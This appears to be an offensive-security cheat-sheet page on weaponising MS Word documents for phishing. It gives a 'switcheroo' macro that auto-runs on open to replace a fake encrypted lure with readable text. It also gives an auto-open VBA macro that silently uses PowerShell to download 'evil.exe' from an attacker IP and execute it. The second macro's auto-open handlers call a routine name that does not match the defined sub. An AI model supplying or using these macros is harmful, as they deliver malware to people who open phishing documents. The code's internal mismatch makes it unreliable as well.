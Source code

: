 # MS Office




## MS Word Document with Switcheroo Text

1. Place "encrypted" data in a Word document after the pretext (random base64): `head -c 2K < /dev/urandom > rnd && base64 rnd`.
2. Create an AutoText: Insert → Quick Parts → AutoTexts → Save Selection as `DecryptedBody` to AutoText Gallery.
3. Create a macro to "decrypt" the body with readable content according to the phishing legend.

{% code title="DecryptPage.bas" %}
```vb
Sub Document_Open()
  DecryptPage
End Sub

Sub AutoOpen()
  DecryptPage
End Sub

Sub DecryptPage()
  ActiveDocument.Content.Select
  Selection.Delete
  ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedBody").Insert Where:=Selection.Range, RichText:=True
End Sub
```
{% endcode %}




## VBA Macros

Wait till a malicious binary is downloaded with PowerShell and execute it:

{% code title="DownloadWaitExec.bas" %}
```
Sub Document_Open()
  hShellcodeRunner
End Sub

Sub AutoOpen()
  hShellcodeRunner
End Sub

Sub DownloadWaitExec()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.13.37/evil.exe', 'evil.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\evil.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
```
{% endcode %}
